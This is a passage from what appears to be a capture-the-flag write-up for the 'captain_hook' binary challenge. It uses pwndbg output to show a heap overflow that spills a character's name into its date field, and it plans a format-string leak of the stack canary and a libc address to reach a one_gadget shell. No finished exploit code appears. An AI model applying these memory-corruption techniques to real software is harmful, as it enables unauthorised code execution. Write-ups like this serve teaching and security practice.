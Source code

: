 Right, there's a stack canary. We could potentially write the original value over it if we knew the value, but we don't. However, if we can manage to exploit the earlier format string bug, we can potentially get `printf` to print out the canary value. Maybe let's play around with the program in GDB to see if we can do anything.

```
==Commands========
 1 -> List all characters
 2 -> Lock up a new character
 3 -> Read character infos
 4 -> Edit character infos
 5 -> Free a character
 6 -> Quit
==================

peterpan@pwnuser:~$ 4
 [ Character index ]: 0
 [ Character ]
  Name: ABCDEFGHIJKLMNOPQRSTUVWXYZ
  Age: 1
  Date (mm/dd/yyyy): 12/12/2020
peterpan@pwnuser:~$ ^C

Program received signal SIGINT, Interrupt.
0x00007ffff7af4081 in __GI___libc_read (fd=0, buf=0x7ffff7dcfa83 <_IO_2_1_stdin_+131>, nbytes=1) at ../sysdeps/unix/sysv/linux/read.c:27

pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000000251	........Q.......
/////////////////////////////////// TRUNCATED //////////////////////////////////
0x555555757250	0x0000000000000000	0x0000000000000051	........Q.......
0x555555757260	0x4847464544434241	0x504f4e4d4c4b4a49	ABCDEFGHIJKLMNOP
0x555555757270	0x5857565554535251	0x0000000000005a59	QRSTUVWXYZ......
0x555555757280	0x312f323100000001	0x4c4b303230322f32	....12/12/2020KL
0x555555757290	0x54535251504f4e4d	0x00005a5958575655	MNOPQRSTUVWXYZ..
0x5555557572a0	0x0000000000000000	0x0000000000020d61	........a.......	 <-- Top chunk
```

Hol up, this is really odd. Seems like any character in our name beyond the 10th character gets appended to the back of the date. Well, that's convenient. This solves our earlier issue of having to pass the `check_date_format` check. Since `printf` will just print until a null character, it'll print the date followed by whatever our format string payload leaks. Ok, now let's see if we can leak the canary and maybe a libc address so that we can call `one_gadget` to get a shell.

```
Breakpoint 1, 0x0000555555554e89 in read_character_infos ()

────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────
00:0000│ rbp rsp  0x7fffffffdca0 —▸ 0x7fffffffdcc0 —▸ 0x5555555553c0 (__libc_csu_init) ◂— push   r15
01:0008│          0x7fffffffdca8 —▸ 0x55555555535a (main+173) ◂— jmp    0x55555555538d
02:0010│          0x7fffffffdcb0 ◂— 0x300000005
03:0018│          0x7fffffffdcb8 ◂— 0x5226422b7e97ff00  <== canary
04:0020│          0x7fffffffdcc0 —▸ 0x5555555553c0 (__libc_csu_init) ◂— push   r15
05:0028│          0x7fffffffdcc8 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax <== libc address
06:0030│          0x7fffffffdcd0 ◂— 0x1
07:0038│          0x7fffffffdcd8 —▸ 0x7fffffffdda8 —▸ 0x7fffffffe0d3 ◂— '/vagrant/challenges/sharky/captain_hook/captain_hook'
───────────────────────────────────────────────────────[ BACKTRACE ]────────────-─────────────────────────────────────────────
 ► f 0     555555554e89 read_character_infos+4
   f 1     55555555535a main+173
```
